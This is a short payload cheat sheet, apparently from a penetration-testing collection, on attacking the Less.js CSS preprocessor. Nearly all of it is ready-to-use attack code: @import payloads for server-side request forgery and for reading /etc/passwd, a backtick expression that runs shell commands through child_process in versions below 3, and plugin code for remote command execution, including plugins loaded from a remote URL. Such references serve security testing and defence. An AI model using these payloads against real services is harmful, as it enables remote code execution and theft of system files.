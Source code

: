 
## Lessjs

[Official website](https://lesscss.org/)
> Less (which stands for Leaner Style Sheets) is a backwards-compatible language extension for CSS. This is the official documentation for Less, the language and Less.js, the JavaScript tool that converts your Less styles to CSS styles.

### Lessjs - SSRF / LFI

```less
@import (inline) "http://localhost";
// or
@import (inline) "/etc/passwd";
```

### Lessjs < v3 - Command Execution

```less
body {
  color: `global.process.mainModule.require("child_process").execSync("id")`;
}
```

### Plugins

Lessjs plugins can be remotely included and are composed of Javascript which gets executed when the Less is transpiled.

```less
// example local plugin usage
@plugin "plugin-2.7.js";
```
or
```less
// example remote plugin usage
@plugin "http://example.com/plugin-2.7.js"
```

version 2 example RCE plugin:

```javascript
functions.add('cmd', function(val) {
  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
});
```
version 3 and above example RCE plugin

```javascript
//Vulnerable plugin (3.13.1)
registerPlugin({
    install: function(less, pluginManager, functions) {
        functions.add('cmd', function(val) {
            return global.process.mainModule.require('child_process').execSync(val.value).toString();
        });
    }
})
```

---